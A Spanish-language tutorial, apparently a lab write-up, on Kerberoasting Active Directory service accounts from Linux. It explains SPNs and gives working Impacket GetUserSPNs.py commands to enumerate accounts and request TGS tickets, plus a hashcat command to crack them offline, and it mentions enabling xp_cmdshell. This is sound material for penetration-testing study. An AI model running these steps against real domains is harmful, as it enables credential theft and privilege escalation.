 ```yaml
---
title: Kerberoasting from a Linux Host
published: true
---
```



![Imagen_Kerberos](/assets/Kerberos.jpg)

# Kerberos

## ¿qué es Kerberos?:
Es una técnica de movimiento lateral / escalada de privilegios en el entorno de Directorio Activo. Tiene como objetivo la  cuentas “Service Principal Names”. Los SPN son identificadores únicos que utiliza kerberos para mapear un servicio en una cuenta de servicio en cuyo continente corre el servicio. Las cuentas de dominio suelen utilizarse para saltarse las limitaciones de autenticación de cuentas built-in como “NT AUTHORITY\LOCAL SERVICE”. Cualquier usuario de dominio puede solicitar un ticket kerberos para una cuenta de servicio del mismo dominio. Esto también está permitido entre árboles de dependencia en caso de que la autenticación esté permitida en el árbol de confianza. Lo único que necesitamos para realizar un ataque kerberoasting es una contraseña en texto claro ( o un hash NTLM), una shell en el contexto de un usuario de dominio o acceso a nivel de sistema a un host unido a dominio. Las cuentas de dominio que corren servicios son a menudo administradores locales, si no cuentas de altos privilegios de dominio. Debido a la naturaleza distribuida de los sistemas, interacción de servicios y transferencias de datos asociadas, las cuentas de servicio pueden ser ser administradores privilegiados en múltiples servidores a lo largo de la compañía. Muchos servicios requieren elevados privilegios en el sistema, por lo que las cuentas de servicio se suelen asociar a los grupos de privilegiados como Domain Admins. Es muy común encontrar con SPNs asociados a cuentas de privilegios elevados en un entorno Windows. Conseguir un ticket kerberos para una cuenta con SPN no significa per se que tengamos permiso para ejecutar comandos en el contexto de esta cuenta. Sin embargo el ticket TGS-REP está cifrado con el hash NTLM de la cuenta por lo que la contraseña en texto claro puede ser obtenida forzándolo a un ataque de fuerza bruta off-line.
Las cuentas de servicio suelen tener contraseñas débiles o reutilizadas para simplificar la tarea del administrador y en algunas ocasiones la contraseña es la misma que el nombre de usuario. Si la contraseña para una cuenta de dominio de SQL Service es craqueada, es probable que te puedas hacer administrador local en múltiples servidores o incluso el Domain Admin. Incluso si mediante kerberoasting conseguimos un ticket con un nivel de cuenta de usuario poco privilegiada, podemos utilizarla para solicitar tickets de servicio del servicio especificado en el SPN. Por ejemplo, si el SPN es de MSSQL/SRV01, podemos acceder al MSSQL como sys admin, habilitar xp_cmdshell extended procedure y obtener la capacidad de ejecución de código en el servidor SQL.
 

## A tener en cuenta durante el ataque:
Obtener un ticket TGS no te garantiza obtener una lista de credenciales válidas, el ticket debe ser crackeado off-line para obtener la contraseña en texto claro. Los tickets TGS llevan más tiempo de crackeo que otros tickets como los NTLM por lo que a menudo , a no ser que tenga una política débil de contraseñas puede resultar muy difícil o imposible crackear una contraseña con una plataforma normal de crackeo

## Desarrollo del ataque:
Los ataques de kerberoasting son fáciles de ejecutar con herramientas y scripts que lo automatizan. Podemos realizar estos ataques tanto desde un host linux como windows. Primero lo veremos desde un host Linux y de una manera semi-automatizada.

**Prerequisito**
Prerrequisitos: Una shell en un contexto de usuario de dominio o una cuenta como SYSTEM. Debemos saber también que host el Domain Controller.
Lo primero que necesitamos es el se de herramientas de Impacket.
```bash
sudo python3 -m pip install .
```

**Obtener lista de SPNs en el dominio**
Podemos obtener una lista de los SPNs presentes en el dominio. Para ello necesitaremos una lista de **credenciales válidas** y la **dirección del Domain Controller**. Podemos autenticarnos contra el Domain Controller con una contraseña en texto claro, un hash NTLM o un ticket Kerberos. Para nuestro caso utilizaremos el método de la contraseña. Con el siguiente comando podemos hacer un prompt de las credenciales y conseguir una lista de SPNs de una manera agradable. En el prompt de abajo podemos ver un ejemplo. Si podemos conseguir alguno de estos tickets y crackearlo podría llevar al compromiso del dominio. Es igualmente necesario que investiguemos todos los diferentes usuarios que aparecen porque no sabemos quien podría ser más fáciles de crackear.

```bash
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend

Impacket v0.9.25.dev1+20220208.122405.769c3196 - Copyright 2021 SecureAuth Corporation

Password:
ServicePrincipalName                           Name               MemberOf                                                                                  PasswordLastSet             LastLogon  Delegation 
---------------------------------------------  -----------------  ----------------------------------------------------------------------------------------  --------------------------  ---------  ----------
backupjob/veam001.inlanefreight.local          BACKUPAGENT        CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                       2022-02-15 17:15:40.842452  <never>               
sts/inlanefreight.local                        SOLARWINDSMONITOR  CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                       2022-02-15 17:14:48.701834  <never>               
MSSQLSvc/SPSJDB.inlanefreight.local:1433       sqlprod            CN=Dev Accounts,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                        2022-02-15 17:09:46.326865  <never>               
MSSQLSvc/SQL-CL01-01inlanefreight.local:49351  sqlqa              CN=Dev Accounts,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                        2022-02-15 17:10:06.545598  <never>               
MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433  sqldev             CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                       2022-02-15 17:13:31.639334  <never>               
adfsconnect/azure01.inlanefreight.local        adfs               CN=ExchangeLegacyInterop,OU=Microsoft Exchange Security Groups,DC=INLANEFREIGHT,DC=LOCAL  2022-02-15 17:15:27.108079  <never> 
```

##Obtener el Ticket:
Una vez hemos visto los tickets que hay disponibles podemos hacer un request de cualquiera de ellos, aunque como ya hemos dicho sería necesario hacerlo de todos porque no sabemos quién podría tener una contraseña débil. 
```bash
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev -outputfile sqldev_tgs
```
Con el ticket final en nuestro poder solo tenemos que crackearlo en busca de la contraseña en texto plano, como este ejemplo es de un laboratorio sencillito la contraseña está dentro del diccionario "rockyou.txt". Para casos profesionales tendríamos que generar un diccionario personalizado, pero eso lo subiré en otro post.

##Crackeo del Ticket:
```bash
hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt 
```

```Python 
Happy Hacking
```

```Python 
bl4sdl3zo@proton.me
```
